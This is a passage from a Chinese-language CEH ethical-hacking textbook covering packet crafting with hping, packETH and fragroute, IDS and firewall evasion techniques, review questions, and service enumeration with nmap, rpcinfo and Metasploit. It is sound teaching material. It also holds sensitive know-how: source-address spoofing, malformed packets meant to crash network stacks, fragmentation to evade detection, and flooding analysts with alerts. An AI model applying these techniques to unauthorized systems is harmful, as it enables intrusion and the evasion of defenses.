len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=7 win=29200 rtt=2.7 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=8 win=29200 rtt=2.5 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=9 win=29200 rtt=2.4 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=10 win=29200 rtt=2.2 ms
```

hping将为您提供响应中设置的所有标志。这包括SYN和ACK标志，以及由响应中的DF指示的不分片位。您还可以看到许多其他详细信息，包括目标主机提供的IP识别号、相对序列号和窗口大小。在没有监听器的端口的情况下，您不会收到指示主机不可达或消息超时的消息，就像使用标准ping程序时那样。相反，您将收到与开放端口相同的响应。标志将不再显示SA（表示SYN和ACK标志已设置），而是显示RA（表示RST和ACK标志）。远程系统重置了端口，告诉我们那里没有应用程序。您仍然会获得所有其他信息，包括往返时间，这将告诉您目标系统响应这些消息的速度，这将取决于网络和操作系统的响应能力。


原始套接字为程序员提供了绕过网络堆栈的能力。当程序员使用原始套接字时，程序预期将处理网络堆栈所做的所有事情，这意味着头部中的所有值都应设置。原始套接字为程序员提供了对数据包最终外观的完全控制。如果您不期望收到响应，则其中没有任何内容需要被视为从协议角度合法。不过，这并不意味着您总会收到响应。您可能会完全畸形目标主机的消息。作为一个示例，请查看下面的命令行。TCP头部的偏移量被错误设置，这意味着目标网络堆栈被指向了错误的位置。此外，SYN和FIN标志都已设置，ACK和PSH标志也是如此。这是一个毫无意义的标志组合。源端口被设置为15，这需要管理员权限才能完成，hping中的大多数操作也是如此，考虑到它通常使用一种称为原始套接字的东西。

### 设置错误标志的hping

```
root@quiche:~# hping3 -0 8 -s 15 -F -S -P -A -t 3 -p 80 192.168.86.1
HPING 192.168.86.1 (eth0 192.168.86.1): SAFP set, 40 headers + 0 data bytes
^C
--- 192.168.86.1 hping statistic ---
```


## 设置了错误标志的 hping（续）

19 个数据包已发送，0 个数据包已接收，100% 丢包率
往返最小/平均/最大 = 0.0/0.0/0.0 ms

除 ICMP 和 TCP 之外，您还可以发送 UDP 消息。由于 UDP 头中可用选项数量有限，发送 UDP 消息使用的参数较少。不过，我们可以使用 hping 进行端口扫描。可以使用 --scan（或 -8）参数扫描一系列 UDP 端口。以下代码演示了此过程。使用 --scan 时，需要指定目标端口。此扫描针对管理端口 1-1023。该范围内该主机上没有监听的端口。输出中被截断的内容是所有未监听的端口号和关联的服务名称。hping 的另一项功能是能够伪造地址。使用 -a 参数，后跟一个 IP 地址，将使 hping 更改传出消息中的源地址。这意味着您将收不到任何响应，因为响应会发送到您指定的源地址。

## 使用 hping 进行 UDP 端口扫描

```
root@quiche:~# hping3 --scan 1-1023 -a 10.15.24.5 -2 192.168.86.1
Scanning 192.168.86.1 (192.168.86.1), port 1-1024
1024 ports to scan, use -V to see all the replies
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
|port| serv name | flags |ttl| id | win | len |
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
All replies received. Done.
Not responding ports: (1 tcpumux) (2 nbp) (3 ) (4 echo) (5 ) (6 zip) (7 echo) (8 )
(9 discard) (10 ) (11 systat) (12 ) (13 daytime) (14 ) (15 netstat) (16 ) (17 qotd)
(18 msp) (19 chargen) (20 ftp-data) (21 ftp) (22 ssh) (23 telnet) (24 )
```

值得一提的另一项功能是能够发送任意大小的数据包。要更改要发送的数据大小，请使用 -d，后跟字节计数。这会设置头部中数据包的主体大小。您还可以通过使用 --file 参数指定文件名来填充数据包。这将读取文件内容并用它们来填充数据包的数据部分。您可能能够使应用程序崩溃，因为发送的数据可能违反协议规范。

## packETH

与 hping 使用命令行参数不同，packETH 采用 GUI 方法来设置所有参数。头部集会根据所选协议而有所不同，每个较低层头部都会指示下一协议，即下一组头部。当您选择使用哪些协议时，packETH 会调整以提供所选协议的所有头部字段。图 5.25 显示了 IP 头部字段以及 TCP 头部字段。您还会看到在第二层头部中将 IP 选为下一协议的位置。在这个屏幕截图中您看不到第二层头部，但您将能够设置地址、确定所使用的第二层协议版本，并添加 802.1q 字段，该字段提供一个标签字段以指示帧应位于哪个虚拟局域网（VLAN）中。

### FIGURE 5.25 packETH interface


除设置头部外，您还可以添加要放入有效载荷的自定义数据。不过，如果您更愿意将数据填充到特定大小，也无需包含数据。图 5.26 显示了填充了数据有效载荷的 TCP 头部。在屏幕截图右侧，您可以看到两个编辑框。其中一个是数据模式，预期为十六进制格式。另一个是提供的模式实例数量。第一个字段设置为 ab，迭代次数设置为 500。获得模式和数量后，应用模式，数据有效载荷将被填充。您会注意到，其格式与您预期的十六进制转储格式相同，每个十六进制字节彼此分开。

### FIGURE 5.26 Data pattern fill


虽然您可以按照已知且理解的字段创建数据包，但也可以创建自己的数据包。第二层头部必须使用源 MAC 地址和目标 MAC 地址进行设置，以便帧有去处，除此之外，通过选择“用户自定义有效载荷”（User Defined Payload），您可以随心所欲地操作。这将排除所有第三层信息，仅包含您想要包含的内容，无论是文本还是十六进制填充模式。图 5.27 显示了使用模式创建的有效载荷。使用文本会导致指定的下一层协议出错，因为它未设置为接受原始文本。您需要改为创建十六进制模式。您会在屏幕截图底部看到，发送了 60 个字节，其中包括我们指定的网络层有效载荷。

### FIGURE 5.27 Network layer data fill


## fragroute

fragroute 是一个在将数据包发送到您指定的目标之前对其进行篡改的程序。它通过调整路由表来工作，使所有发往目标的消息都首先经过 fragroute 应用程序。为了使 fragroute 工作，您需要创建一个配置文件。此配置文件包含指令，告诉 fragroute 如何处理通过该应用程序的数据包。在以下代码清单中，您可以看到一个配置文件，其中包含一些指令，这些指令保证会制造出非常混乱的网络流量。

## fragroute Configuration File

```
kilroy@lolagranola $ cat frag.conf
delay random 1
dup last 30%
ip_chaff dup
ip_frag 128 new
tcp_chaff null 16
order random
print
```

此处的指令告诉 fragroute 对数据包执行多项操作。第一项是将随机数据包延迟 1 毫秒。接下来，有 30% 的几率复制最后一个数据包。ip_chaff 行会将重复数据包添加到队列中。发送消息时，它们具有一个由数据链路协议决定的最大传输单元（MTU）大小。在以太网中，该大小为 1,500 字节，尽管有可能获得称为巨帧（jumbo frames）的更大帧。更常见的是，您会看到 MTU 为 1,500。任何大于 MTU 的消息都会被分片。不过，使用 fragroute 时，我们将强制数据包在发送前进行分片。这发生在 ip_frag 128 new 行中。我们将在 128 字节处进行分片，这足以容纳头部数据以及稍多一些内容。发送的任何大文件（例如图像文件）都会产生大量分片。

以 tcp_chaff 开头的行与 ip_chaff 的作用相同，但作用于传输层。插入的 TCP 段将具有空 TCP 标志，如配置中所指定。我们也可以在 TCP 头部中包含无效校验和、较旧的时间戳或其他虚假信息。这会导致这些消息在经过检查后被对话远端拒绝。最后，消息的顺序将被随机化，因此它们将乱序并在远端需要重新组装，然后将打印消息详细信息。

使用更简单的配置文件，您可以在以下代码清单中看到 fragroute 的一次运行。这是 Kali Linux 系统上随 fragroute 包默认安装的配置文件。此配置文件使用 tcp_seg 将 TCP 数据拆分为指定段大小。之后，它使用前面提到的 ip_frag 和 ip_chaff。然后，它会设置顺序并打印消息详细信息，如您所见。

## fragroute Run against Target

```
root@quiche:~# fragroute -f /etc/fragroute.conf 184.159.210.190
fragroute: tcp_seg -> ip_frag -> ip_chaff -> order -> print
192.168.86.57.18294 > 184.159.210.190.17766: SR 1400140884:1400140908(24) ack
1802781559 win 14416 urg 21625 [delay 0.001 ms]
192.168.86.57.43460 > 184.159.210.190.4443: S 2873730507:2873730507(0) win 29200
<mss 1460,sackOK,timestamp 770861436 0,nop,wscale 7>
192.168.86.57.21314 > 184.159.210.190.20905: S 810642531:810642543(12) ack
1802326352 win 27514 [<bad opt>] [delay 0.001 ms]
192.168.86.57.43460 > 184.159.210.190.4443: S 2873730507:2873730507(0) win 29200
<mss 1460,sackOK,timestamp 770862448 0,nop,wscale 7>
192.168.86.57.19306 > 184.159.210.190.22387: R 1297315948:1297315960(12) ack
2020107846 win 19767 urg 31041 [<bad opt>] [delay 0.001 ms]
192.168.86.57.43460 > 184.159.210.190.4443: S 2873730507:2873730507(0) win 29200
<mss 1460,sackOK,timestamp 770864464 0,nop,wscale 7>
192.168.86.57.26963 > 184.159.210.190.21350: SFP 1950696520:1950696548(28) win
27988 urg 20558 [delay 0.001 ms]
```


当你使用 fragroute 时，你可能会注意到，你试图与目标进行交互的操作会失败。在前面的示例中，我使用了 openssl s_client 通过 SSL/TLS 与 Web 服务器建立连接。连接从未完成，很可能是因为到达目标的数据包严重错乱且顺序失序，以至于网络协议栈无法理解它们。不过，运行 fragroute 的目的不一定是建立连接。有时，目的只是看看你是否能让目标系统上的网络协议栈崩溃，这可能会连带内核一起崩溃，导致整个系统不可用，迫使重启。

## 规避技术

你测试的任何目标组织都会部署安全机制来保护自身。这可能是防火墙或入侵检测系统。它还可能部署入侵防御系统。这些机制中的任何一种都可能通过阻断你的操作或发出警报来挫败你的努力，这可能导致你的行为被发现。这两种情况都不理想。幸运的是，有一些规避技术可能帮助你绕过这些设备，以便你能继续前进。我们已经介绍过的一些工具将帮助你完成这些规避程序。常见的规避技术如下：

- **隐藏/模糊数据** 你可以使用加密或混淆来伪装你正在做的事情。在不破坏加密端到端特性的前提下，无法对加密流量进行调查。加密的目标是消息从发送者到接收者一直保持加密状态，中间节点不进行解密。你还可以使用各种编码技术对数据进行编码，包括 URL 编码，它将字符替换为其 ASCII 代码的十六进制值。

- **修改** 入侵检测/防御系统尤其经常使用一种称为签名的东西。在恶意软件的情况下，这可能是一个加密哈希值，可与已知恶意软件数据库进行比对。如果哈希匹配，消息可能会被丢弃。然而，在涉及加密哈希时，文件内容中单个字符的更改将产生完全不同的哈希值，这意味着你正在做的事情不会被检测到。这种策略通常称为多态性，源自多态体，意为多种形状或形式。

- **碎片化** 碎片化攻击可用于规避网络安全机制，原因很简单：当这些设备串联在线时，需要时间重新组装消息，然后才能发现对抗行为。这种重组需要时间，因此有些设备根本不费心，因为重组和检测会增加通信延迟。这取决于设备以及设备开发者做出的决定。你可以使用像 fragroute 这样的工具来帮助你进行碎片化。

- **重叠** 当消息被碎片化时，可能发生在网络层或传输层，正如你从查看 fragroute 中看到的那样。当需要重新组装消息时，所有碎片都必须存在且状态正常，以便拼图能够重新拼合。在使用 TCP 时，你可以重叠序列号。这本质上是已发送的字节数。你可以发送两个 TCP 段，它们似乎占据正在重新拼合的拼图中的同一空间。IDS 和目标操作系统可能会决定以不同方式重新拼合拼图。如果一个倾向于支持较新的信息而另一个倾向于支持较旧的信息，就可能发生这种情况。操作系统需要决定是首先收到的消息有效，还是最后收到的消息更有效。

- **畸形数据** 协议是关于通信预期如何进行的一组规则。如果你违反这些规则，可能会得到意外结果。即使你没有违反规则，而是利用了漏洞，也可以获得一些有用数据。这就是为什么 nmap 使用 XMAS、FIN 和 NULL 扫描的原因。这种行为出乎意料，但从协议角度来看并不从技术上讲属于非法。同样，协议中的一些细节在不同的网络协议栈中可能处理方式不同。URG 指针在不同操作系统中可能也会被不同处理。这可以用来绕过 IDS，同时仍能让目标系统按你想要的方式响应。

- **低速扫描** 快速扫描容易被检测到。更难检测的是持续很长时间的扫描。想象一下，每小时发送一个扫描数据包。执行起来可能非常耗时，但在讨论单个消息时，IDS 或防火墙将其识别为端口扫描的可能性要小得多。花时间可能有好处。你可以使用 nmap 节流参数来极大地减慢扫描速度。

- **资源消耗** 通过消耗 CPU 或内存等资源，可能会导致设备发生“开放失败”。如果你耗尽其中任何一种资源，一旦设备发生故障，后续消息可能就会直接通过。

- **屏幕失明** 在 IDS 的情况下，设备或软件会发出警报。预期会有人查看这些警报。如果你能从不关心的流量中产生大量警报，就可以导致查看警报的人出现“屏幕失明”，即由于被眼前的内容压垮，他们不再看到重要细节。这样，你就可以用大量虚假警报流量设置一个烟幕，然后将真实数据发送穿过该烟幕。

- **隧道传输** 隧道是将数据封装在其他内容中进行传输的一种方式。例如，通用路由封装（GRE）协议可以通过获取数据包并将其封装在 GRE 数据包内来创建隧道。这使得看似通过的是 GRE 数据包，而实际上负载中包含其他内容。GRE 是一种设计用于隧道传输的协议，适用于你希望在接收端而非发送端处理路由的情况。其他协议也已被用于隧道攻击，包括 SSH、HTTP、ICMP 和 DNS。这些隧道攻击要求接收端具有能够提取隧道消息并将其放置到目标网络上的软件。

请记住，对于有状态防火墙等设备，一旦第一条消息通过，后续消息可能默认被允许，因为它们属于已建立的连接。当然，这些规避技术都已存在很长时间，因此防火墙或 IDS 厂商可能知道如何检测其中的大多数技术。这意味着你可能无法使这些规避生效。不过，了解它们并尝试使用它们，看看能否突破，仍然是值得的。

有些规避技术比其他技术更有可能成功，因为它们不依赖于防火墙或 IDS 厂商。例如，加密应该始终有效，因为防火墙和 IDS 根本无法看到数据，密钥由两个端点协商。不过，加密要求接收端有一个理解加密并能与发送应用程序协商的服务。一种不依赖技术手段的规避技术是淹没查看警报的人。不过，这假设没有技术手段来筛选掉多余的消息，只向操作员呈现有趣的警报。

## 总结

扫描将为你提供大量信息，在你继续进行测试和评估时，这些信息将是必要的。不过，扫描有不同的类型。在扫描时，你需要识别开放的端口。识别开放端口的目的不仅仅是获得端口列表。最终，你希望识别在开放端口上监听的服务或应用程序。为了识别这些开放端口，你将使用端口扫描器。最常用的端口扫描器是 nmap。nmap 不仅可以用于识别开放端口，还可以通过抓取横幅来识别应用程序版本。此外，nmap 可以识别目标上运行的操作系统。

虽然还有其他端口扫描器可用，包括用于高速扫描的 masscan，但 nmap 是唯一内置脚本引擎的端口扫描器。nmap 的脚本引擎基于 Lua 编程语言，但 nmap 提供了库，让你可以轻松访问 nmap 拥有的信息，从而编写脚本来更好地识别服务，并执行诸如识别漏洞等测试。当你为 nmap 脚本引擎（NSE）编写脚本时，你会在 nmap 中注册端口，这样当 nmap 发现已注册端口开放时，就会调用你的脚本。

虽然 nmap 通常是一个命令行程序，但还有一个图形界面作为 nmap 的前端。Zenmap 是一个基于指定命令调用 nmap 的程序，但它还会解析结果，以不同方式向你提供。你可以查看所有已识别的服务。你还可以根据 nmap 发现的内容查看网络拓扑。虽然你可以向 Zenmap 提供与向 nmap 提供的相同命令，但 Zenmap 还会提供一些可运行的扫描类型，例如强度扫描。选择扫描类型将填充所需的命令行参数。

漏洞扫描器不仅会查找漏洞，还通常会在查找和识别开放端口的过程中执行端口扫描。市面上有许多商用漏洞扫描器。开源漏洞扫描器非常少。其中一种基于现在已商用的扫描器，即 OpenVAS。OpenVAS 是从 Nessus 的最后一个开源版本分叉而来的。漏洞的挑战之一是


扫描器需要维护并保持最新所需的工作量非常大，这或许是开源扫描器极少的主要原因。

漏洞扫描器（例如 OpenVAS 和 Nessus）使用插件执行测试。它们会探测目标主机以观察主机上的行为，从而识别潜在漏洞。不过，并非所有识别出的漏洞都是真实的。扫描器识别出但并非真实存在的漏洞称为误报。漏洞漏报是指确实存在但未被识别出的漏洞。由于漏洞扫描器的工作方式，它们远非万无一失。可能需要手动工作来验证漏洞扫描器的发现结果。

为了测试漏洞并执行扫描，您可能需要不依赖操作系统来构建数据包。有多种工具可用于构造数据包，例如 hping。这是一种既可用于扫描，也可通过命令行开关创建数据包的工具。如果您不希望使用命令行，可以使用类似 packETH 的工具。packETH 会向您展示第 2 层到第 4 层的所有报头。您也可以创建要放入数据包的有效载荷。packETH 还允许您从 PCAP 中提取数据包并对其进行修改。您可以向目标发送单个数据包（第 2 层或第 3 层），也可以发送数据流。使用这些构造的数据包，您可以从目标获得响应，这些响应可能会为您提供所需的信息。

您的目标网络很可能已安装防火墙和入侵检测系统（IDS）。您可能需要使用规避技术来绕过这些设备，因为它们很可能会阻止您完成工作。规避安全技术的方式有多种，包括加密/编码、让操作人员出现“屏幕失明”，或向目标发送畸形消息。

## 复习问题

您可以在附录中找到答案。

1. 如果从目标主机收到 RST 数据包，您了解目标的什么情况？
- A. 目标使用的是 UDP 而非 TCP。
- B. 目标主机上的目标端口是开放的。
- C. RST 消息中的源端口是关闭的。
- D. 目标期望设置 PSH 标志。

2. SYN 扫描和全连接扫描有什么区别？
- A. SYN 扫描和全连接扫描是相同的。
- B. 全连接扫描首先发送 ACK 消息。
- C. SYN 扫描将 PSH 标志与 SYN 标志一起使用。
- D. SYN 扫描不会完成三次握手。

3. 扫描同一主机时，UDP 扫描可能比 TCP 扫描耗时更长的一个原因是什么？
- A. UDP 会重传更多。
- B. UDP 待扫描的端口更多。
- C. UDP 是较慢的协议。
- D. UDP 建立连接需要更多消息。

4. 为什么 ACK 扫描不能清楚地指示端口是开放的？
- A. 扫描器必须猜测。
- B. ACK 不是受支持的标志。
- C. 目标系统忽略该消息。
- D. ACK 扫描会导致大量重传。

5. 使用类似 ACK 扫描这样的扫描的一个原因是什么？
- A. 它可能能够穿过防火墙和 IDS 设备。
- B. 它得到更好的支持。
- C. nmap 中的代码更健壮。
- D. ACK 扫描用于脚本支持。

6. nmap 在对操作系统进行指纹识别时查看什么？
- A. 操作系统报头
- B. 应用程序版本
- C. 连接到端口 0 时的响应
- D. IP ID 字段和初始序列号

7. nmap 进行版本扫描时查看什么？
- A. TCP 和 IP 报头
- B. 应用程序横幅
- C. 操作系统内核
- D. IP ID 和 TCP 序列号字段

8. 使用 masscan 而非 nmap 的一个优势是什么？
- A. masscan 出现时间更长。
- B. Nmap 难以使用。
- C. masscan 可以更快地扫描更多地址。
- D. masscan 可以访问扫描更多的互联网。

9. 如果看到以下命令正在运行，您会推断什么？hping -S -p 25 10.5.16.2
- A. 有人试图探测目标的 Web 端口。
- B. 有人试图探测目标上的电子邮件端口。
- C. 有人试图确定 10.5.16.2 上是否支持 SNMP。
- D. 有人误输入了 ping。

10. 如果看到有人先使用 OpenVAS，随后使用 Nessus，您可能会推断什么？
- A. 他们试图入侵系统。
- B. 他们不知道如何使用 Nessus。
- C. 他们不知道如何使用 OpenVAS。
- D. 他们试图减少误报。

11. 误报和漏报有什么区别？
- A. 误报指不存在的发现，而漏报指未指出确实存在的发现。
- B. 误报指确实存在的发现，而漏报指未指出不存在的发现。
- C. 误报未指出确实存在的发现，而漏报指出了不存在的发现。
- D. 漏报指出了不存在的发现，而误报未指出确实存在的发现。

12. 运行 ping 扫描的目的是什么？
- A. 您希望在不进行端口扫描的情况下识别响应主机。
- B. 您希望使用网络流量较小的方法。
- C. 您希望使用可能被防火墙允许通过的协议。
- D. 以上皆是。

13. 在漏洞扫描方面，以下哪些可能被视为最差实践？
- A. 扫描生产服务器
- B. 提前通知运维人员
- C. 对结果不采取任何行动
- D. 在扫描报告中使用有限详细信息

14. 以下哪些可能被视为规避技术？
- A. 扫描非标准端口
- B. 编码数据
- C. 使用代理服务器
- D. 在盲扫描模式下使用 nmap

15. 如果在查看数据包捕获时注意到 DNS 请求内部存在操作系统命令，您可能在查看什么？
- A. 隧道攻击
- B. DNS 放大
- C. DNS 递归
- D. XML 实体注入

16. 什么是 XMAS 扫描？
- A. 设置了 SYN/ACK/FIN 的 TCP 扫描
- B. 设置了 FIN/PSH 的 UDP 扫描
- C. 设置了 FIN/PSH/URG 的 TCP 扫描
- D. 设置了 SYN/URG/FIN 的 UDP 扫描

17. 您会使用 MegaPing 来做什么？
- A. 运行漏洞利用
- B. 运行端口扫描
- C. 发出手动 Web 请求
- D. 构造数据包

18. 在 OpenVAS 中使用 Override 功能的原因是什么？
- A. 您想为漏洞运行不同的插件。
- B. 您想更改扫描器设置。
- C. 您想使用 TCP 而非 UDP。
- D. 您想更改发现结果的严重性评级。

19. 您会在漏洞扫描器中使用凭据做什么？
- A. 网络发现的可靠性更高
- B. 通过 VPN 进行扫描身份验证
- C. 扫描本地漏洞
- D. 运行 Active Directory 扫描

20. fragroute 主要用于什么？
- A. 更改网络路由
- B. 捕获分片数据包
- C. 分片应用程序流量
- D. 分片第 2 层和第 3 层报头


# 第 6 章

# 枚举

本章涵盖的以下 CEH 考试主题：

- 技术评估方法
- 网络安全
- 漏洞
- 应用程序/文件服务器


端口扫描最终旨在识别目标网络内系统上安装的应用程序。不过，在识别出应用程序后，我们会希望深入挖掘，看看还能提取哪些其他信息。

这可能包括用户信息或网络上可能可用的共享资源的详细信息。当然，当我们开始进行枚举工作时，可以执行其他活动。当我们开始进入下一阶段时，这一信息收集将有所裨益。

枚举是关于确定正在运行哪些服务，然后从这些服务中提取信息。首先要做的是识别目标系统上可用的服务。每个服务可能都有大量可获取的信息。面向外部的服务可能具有身份验证要求，这意味着存在用户。例如，用户可能需要经过身份验证和授权才能查看 Web 服务器上的某些部分。您可能能够让 Web 服务器指示服务器上配置了哪些用户名，这就是枚举的一个示例。

由于我们正在处理枚举工作，我们将仔细研究一些协议以及与这些协议配合使用的工具。首先是 Server Message Block (SMB) 协议。该协议用于 Windows 系统的文件和资源共享以及一些远程管理。这肯定是一个用户需要针对服务进行身份验证的情况，因此我们可以花些时间尝试在 Windows 服务器上查找用户。此外，您可能能够识别与 Windows 域相关的安全策略信息。当然，您应该能够识别文件共享（如果存在的话）。

在谈到枚举时，您可能不会想到的其他协议是简单邮件传输协议 (SMTP) 和简单网络管理协议 (SNMP)。用户在通过 SMTP 服务器发送电子邮件之前通常需要进行身份验证和授权，尤其是当他们从邮件服务器所在网络之外发送邮件时。如果您使用传统邮件客户端连接到 Gmail 或 Office 365，您一定熟悉需要为 SMTP 服务器提供用户名和密码。您的客户端可能会自动为您填写这些信息，但如果您查看设置，这些信息就在那里。

SNMP 可以提供大量关于系统的信息。如果您能够访问 SNMP 系统，您应该能够遍历管理信息库 (MIB) 以从目标系统提取详细信息。有工具可以为您执行此遍历操作，检索信息并将其呈现给您。

在本章结束时，您应该对枚举是什么以及可以使用哪些工具来枚举系统上的不同资源有扎实的理解。这些工具中的许多将基于 Linux 并从命令行运行，但我们还将查看一些 Windows 工具。


## 服务枚举

扫描系统时，nmap 总是你的好帮手。在进行服务枚举时也是如此。这意味着你正在识别目标系统上运行的服务。快速做到这一点的方法是使用 nmap 内置的版本扫描。在以下代码清单中，你可以看到 nmap 在我的网络主机上运行的版本扫描的部分输出。版本扫描是通过将 -sV 作为参数发送给 nmap 来执行的。它不仅显示开放端口，而且在能找到的地方，还会显示在网络上被发现响应的主机上运行的服务和版本的具体信息。它通过查看任何应用程序横幅来提取服务名称和版本的详细信息来做到这一点。

## Nmap 版本扫描

```
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.7p1 Debian 3 (protocol 2.0)
25/tcp closed smtp
80/tcp open http Greenbone Security Assistant
443/tcp closed https
MAC Address: 0E:76:03:B8:2A:BA (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
Nmap scan report for desktop-3rgc5h2.lan (192.168.86.60)
Host is up (0.025s latency).
```

```
PORT STATE SERVICE VERSION
22/tcp filtered ssh
25/tcp filtered smtp
80/tcp filtered http
443/tcp filtered https
MAC Address: C4:9D:ED:AB:DD:7A (Microsoft)
```

```
Nmap scan report for milobloom.lan (192.168.86.61)
Host is up (0.94s latency).
```

```
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6 (protocol 2.0)
25/tcp closed smtp
80/tcp closed http
443/tcp closed https
MAC Address: B8:09:98:A7:C7:13:8F (Apple)
```

如你所见，并非所有服务都提供它们是什么的详细信息。在大多数情况下，我们可以识别服务，但无法识别应用程序或版本。在前一个清单中我们可以看到的一件事是，有几个系统正在运行安全外壳协议（SSH）。并非所有 SSH 服务器都提供了版本甚至协议。幸运的是，我们可以再次使用 nmap 来获取更多关于 SSH 的详细信息。nmap 具有脚本功能，有很多脚本可以枚举服务以获取更多详细信息。其中一个脚本将枚举 SSH 服务器支持的算法。SSH 在客户端和服务器之间加密数据，但使用的密码套件可能因连接而异，因为客户端可以支持不同的密钥强度和算法。在这里，你可以看到用于枚举 SSH 服务器之间算法的脚本的使用，ssl-enum-ciphers.nse。

## SSH2 算法枚举

```
PORT STATE SERVICE
22/tcp open ssh
| ssh2-enum-algos:
| kex_algorithms: (10)
| curve25519-sha256
| curve25519-sha256@libssh.org
| ecdh-sha2-nistp256
| ecdh-sha2-nistp384
| ecdh-sha2-nistp521
| diffie-hellman-group-exchange-sha256
| diffie-hellman-group16-sha512
| diffie-hellman-group18-sha512
| diffie-hellman-group14-sha256
| diffie-hellman-group14-sha1
| server_host_key_algorithms: (5)
| ssh-rsa
| rsa-sha2-512
| rsa-sha2-256
| ecdsa-sha2-nistp256
| ssh-ed25519
| encryption_algorithms: (6)
| chacha20-poly1305@openssh.com
| aes128-ctr
| aes192-ctr
| aes256-ctr
| aes128-gcm@openssh.com
| aes256-gcm@openssh.com
| mac_algorithms: (10)
|              umac-64-etm@openssh.com
|              umac-128-etm@openssh.com
|              hmac-sha2-256-etm@openssh.com
|              hmac-sha2-512-etm@openssh.com
|              hmac-sha1-etm@openssh.com
|              umac-64@openssh.com
|              umac-128@openssh.com
|              hmac-sha2-256
|              hmac-sha2-512
|              hmac-sha1
|       compression_algorithms: (2)
|               none
|_             zlib@openssh.com
MAC Address: 0E:76:03:8B:2A:BA (Unknown)
```

在输出中你会看到一组算法类型。第一组算法用于密钥交换。其中之一是 Diffie-Hellman 算法，以 Whitfield Diffie 和 Martin Hellman 命名，他们是首个发布密钥交换算法的人。
密钥交换算法很重要，因为密钥对于加密至关重要，并且是在建立连接时生成的。你还可以看到列出的加密算法。其中大多数是高级加密标准（AES），不过你会注意到有一个名为 ChaCha20。这是一种类似于 AES 的流密码，可以允许程序在不需要开源加密库的情况下使用加密。最后，还有消息认证码，用于确保消息未被篡改或损坏。

> Diffie 和 Hellman 是首个发布密钥交换算法的人，但他们不是首个开发该算法的人。政府情报机构已经独立于 Diffie 和 Hellman 自行提出了密钥交换算法。区别在于，机构的员工无法发表，因为他们的工作不能在机构外披露。

当然，nmap 可以为你获取服务和版本号列表提供一个良好的开端，但并不总是足够。关于不同服务，还有更多可以获取的信息。nmap 可以通过使用与 nmap 一起安装的脚本来在这方面提供帮助。这些脚本可以用来提取大量信息，例如 SSH 中的算法，这些信息否则难以获得。SSH 可能提供加密服务，但并非所有加密算法都没有漏洞。这就是为什么了解服务的一切可能很有用。你永远不知道在哪里可能会遇到漏洞。

## 远程过程调用

远程过程调用（RPC）是一种服务，允许远程系统使用调用应用程序外部的过程。系统 A 上的程序可以跨网络调用另一台系统上的函数或过程。它使用 RPC 协议来做到这一点。就调用远程过程的本地计算机上的程序而言，这是一个与其余代码存在于同一进程空间中的本地过程。程序调用此过程，获取信息，然后继续前进。RPC 为两个进程相互通信提供了一种方式。远程通常意味着远程服务器，但两个本地进程也可以使用 RPC 相互通信。

## SunRPC

进程间通信的概念已经存在了几十年。几十年来，出现了多种请求-响应协议的实现。Java 的远程方法调用（RMI）就是最近的一个例子。在此之前，有公共对象请求代理体系结构（CORBA），它与语言实现无关。有时，在使用 RPC 时，你需要本质上是一个目录服务，以指示不同服务正在运行的动态端口。

远程过程调用的常见实现是 portmap 程序，也称为 rpcbind。该程序用于提供已向 portmapper 服务注册的程序的信息，提供这些远程过程。portmapper 为服务分配一个监听端口，并在被查询时提供该信息。使用 rpcbind/portmap 的服务常见示例包括网络文件服务器（NFS）等文件共享服务器。

提供 portmapper 或 rpcbind 服务的软件包还可能提供可使用 RPC 通信的实用程序。这是通过端口 111 完成的。要识别远程系统上的程序和关联端口，可以使用 rpcinfo 程序。你可以在这里看到 rpcinfo 的使用示例。使用的命令 rpcinfo -p 会让 rpcinfo 探测提供的主机。在这种情况下，主机是 IP 地址而不是主机名。

## rpcinfo 列表

```
kilroy@bobbie $ rpcinfo -p 192.168.86.52
program vers proto port service
100000 4 tcp 111 portmapper
100000 3 tcp 111 portmapper
100000 2 tcp 111 portmapper
100000 4 udp 111 portmapper
100000 3 udp 111 portmapper
100000 2 udp 111 portmapper
100005 1 udp 43939 mountd
100005 1 tcp 58801 mountd
100005 2 udp 46384 mountd
100005 2 tcp 50405 mountd
100005 3 udp 49030 mountd
100005 3 tcp 50553 mountd
100003 3 tcp 2049 nfs
100003 4 tcp 2049 nfs
100227 3 tcp 2049 nfs_acl
100003 3 udp 2049 nfs
100227 3 udp 2049 nfs_acl
100021 1 udp 34578 nlockmgr
100021 3 udp 34578 nlockmgr
100021 4 udp 34578 nlockmgr
100021 1 tcp 39297 nlockmgr
100021 3 tcp 39297 nlockmgr
100021 4 tcp 39297 nlockmgr
```

前面显示的向 rpcbind 注册了远程过程的程序与 NFS 文件共享服务器相关联。portmapper 程序是查询额外数据的主要服务，但 mountd、nfs 和 nlockmgr 等其他程序对于 NFS 也是必需的。NFS 由 Sun Microsystems 开发。portmapper 是与 Sun 相关联的 RPC 实现。你有时可能会看到它被称为 SunRPC。Metasploit 中的一个扫描器也是这种情况，它还可以用于识别使用 portmapper 分配给程序的端口。

## Metasploit sunrpc 扫描器

```
msf > use auxiliary/scanner/misc/sunrpc_portmapper

msf auxiliary(scanner/misc/sunrpc_portmapper) > set RHOSTS 192.168.86.52
RHOSTS => 192.168.86.52
msf auxiliary(scanner/misc/sunrpc_portmapper) > run
```

```
[+] 192.168.86.52:111  - SunRPC Programs for 192.168.86.52
=========================================
```

| 名称 | 编号 | 版本 | 端口 | 协议 |
| --- | --- | --- | --- | --- |
| mountd | 100005 | 1 | 43939 | udp |
| mountd | 100005 | 1 | 58801 | tcp |
| mountd | 100005 | 2 | 46384 | udp |


## Metasploit sunrpc 扫描器（续）

| 服务 | ID | Col3 | 端口 | 协议 |
|---|---|---|---|---|
| mountd | 100005 | 2 | 50405 | tcp |
| mountd | 100005 | 3 | 49030 | udp |
| mountd | 100005 | 3 | 50553 | tcp |
| nfs | 100003 | 3 | 2049 | tcp |
| nfs | 100003 | 4 | 2049 | tcp |
| nfs | 100003 | 3 | 2049 | udp |
| nfs_acl | 100227 | 3 | 2049 | tcp |
